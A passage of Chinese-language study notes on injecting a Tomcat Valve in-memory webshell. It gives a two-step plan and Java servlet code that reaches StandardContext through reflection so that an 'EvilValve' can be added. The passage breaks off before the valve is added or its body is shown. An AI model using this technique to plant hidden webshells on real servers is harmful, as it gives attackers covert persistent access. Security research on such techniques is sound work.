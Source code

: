 #### 实现思路
1. 实现一个Valve类.  

Valve类的定义如下  
![](2023-01-31-11-23-58.png)  
实现其invoke方法即可在请求进行处理.  

2. 获取当前的Container,调用其addValve方法添加Valve,注入内存马.
#### 实现代码
```java
package org.example.Servlets;

import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletContext;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;

public class ValueServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        EvilValve evilValve = new EvilValve();
        ServletContext servletContext = req.getServletContext();
        StandardContext standardContext = null;
        while (standardContext ==null) {
            try {
                Field f = servletContext.getClass().getDeclaredField("context");
                f.setAccessible(true);
                Object ob = f.get(servletContext);
                if (ob instanceof ServletContext) {
                    servletContext = (ServletContext) ob;
                } else if (ob instanceof StandardContext) {
                    standardContext = (StandardContext) ob;
                }
            } catch (NoSuchFieldException | IllegalAccessException e) {
                throw new RuntimeException(e);
            }
        }
```
